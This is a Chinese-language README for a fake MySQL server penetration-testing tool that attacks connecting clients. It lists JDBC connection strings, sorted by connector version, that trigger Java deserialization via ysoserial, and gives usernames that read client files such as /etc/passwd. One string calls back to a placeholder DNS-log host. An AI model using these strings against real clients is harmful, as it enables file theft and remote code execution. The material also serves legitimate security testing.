


# MySQL Fake Server
用于渗透测试过程中的假MySQL服务器，纯原生python3实现，不依赖其它包。

修改自项目https://github.com/waldiTM/python-mysqlproto

## 用途

1. MySQL服务端读取客户端文件漏洞利用
2. MySQL JDBC客户端Java反序列化漏洞利用

## 说明
1. 需要python3环境，无任何其它依赖。
2. 根据**登录用户名**返回文件读取利用报文、反序列化利用报文。
3. 需要[ysoserial](https://github.com/frohoff/ysoserial)才能用反序列化功能，支持ServerStatusDiffInterceptor和detectCustomCollations两种方式。
4. MySQL的用户名支持冒号、斜杠等特殊符号，但是能否使用还需看具体客户端环境。
5. 运行：`python server.py`
6. config.ini中预置了一部分配置信息

## 测试环境：
1. jdk1.8.20+mysql-connector-java 8.0.14/5.1.22(Windows下反序列化（JRE8u20）、文件读取)
2. PHPMyAdmin(Windows+Linux文件读取，可以使用相对路径读取php文件内容)
3. Navicat 12(Windows下文件读取，需要切换到mysql_clear_password认证插件)

## 使用方法
1. 文件读取：
    - 可以在config.json中fileread节中预定义好要读取的文件,key为用户名,value为要读取的文件名
    - 可以用fileread_开头的用户名(例如使用用户名fileread\_/etc/passwd来读取/etc/passwd文件)
2. 反序列化
    - 可在config.json中yso节预定义好yso payload的生成参数，key为用户名，value为ysoserial的参数
    - 可以用yso_开头的用户名，格式yso\_payload类型\_命令（例如jdk7u21调用calc就使用用户名yso\_Jdk7u21\_calc）
    - jdbc连接串示例：
      - `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_Jdk7u21_calc`
      - `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_URLDNS_http://yourdns.log.addr/`
3. 关于认证：默认认证插件一般使用**mysql_native_password**,但是由于议实现的问题，navicat下会连接失败，此时在使用的用户名后追加 **_clear** 即可切换为mysql_clear_password,navicat连接成功,读取到文件。
    - **例如：** fileread\_/etc/passwd_clear

## JDBC连接串整理

写分析的时候整理了一下：https://www.anquanke.com/post/id/203086
用户名请参考上面的说明进行修改。

### ServerStatusDiffInterceptor触发

- **8.x: **`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(属性名不同): **`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11及以上的5.x版本（包名没有了cj）: **`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10及以下的5.1.X版本：**同上，但是需要连接后执行查询。

- **5.0.x: **还没有`ServerStatusDiffInterceptor`这个东西┓( ´∀` )┏

### detectCustomCollations触发：

- **5.1.41及以上: **不可用

- **5.1.29-5.1.40: **`jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：**`jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.18以下的5.1.x版本：  **不可用

- **5.0.x版本不可用 **

## 效果

Navicat文件读取（用户名使用win_ini_clear）

JDK 1.8.20+mysql-connector-java 8.0.14反序列化，使用用户名：yso_JRE8u20_calc

## 踩过的坑

1. SHOW VARIABLES 相关
   - 会读取两列，所以需要返回两列，否则会报错。
   - JDBC连接的时候回通过调用`SHOW VARIABLES`获取服务器变量，其中最重要的是两个时区变量`system_time_zone`和`time_zone`，在getObject过程，会调用到时区相关信息，没有这两个会直接报错
2. jdbc的Blob判定条件除了字段类型为blob，还要求字段声明的org_table字段不为空，flags大于128，否则会被当做text进行解析。（com.mysql.cj.protocol.a.NativeProtocol的findMysqlType方法）
3. 原python-mysqlproto中的序列检测需要去掉，否则会出错（这个应该是哪里处理有问题导致了序号重置）。
4. `SHOW SESSION STATUS`和`SHOW COLLATION`的公用列是第二列
5. mysql java connector 5.x的环境下，需要返回的server版本大于等于5.0.0才会走到`Util.resultSetToMap`进入getObject

## 招聘了招聘~

360云安全团队目前大量招聘中，欢迎各位大佬投递简历，大家一起来愉快地玩耍~^_^

https://www.anquanke.com/post/id/200462

## 参考资料

**项目基础：**

https://github.com/waldiTM/python-mysqlproto

**漏洞相关:**

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://paper.seebug.org/1112/

https://github.com/codeplutos/MySQL-JDBC-Deserialization-Payload

**协议相关：**

https://dev.mysql.com/doc/internals/en/protocoltext-resultset.html

https://dev.mysql.com/doc/internals/en/character-set.html

https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Data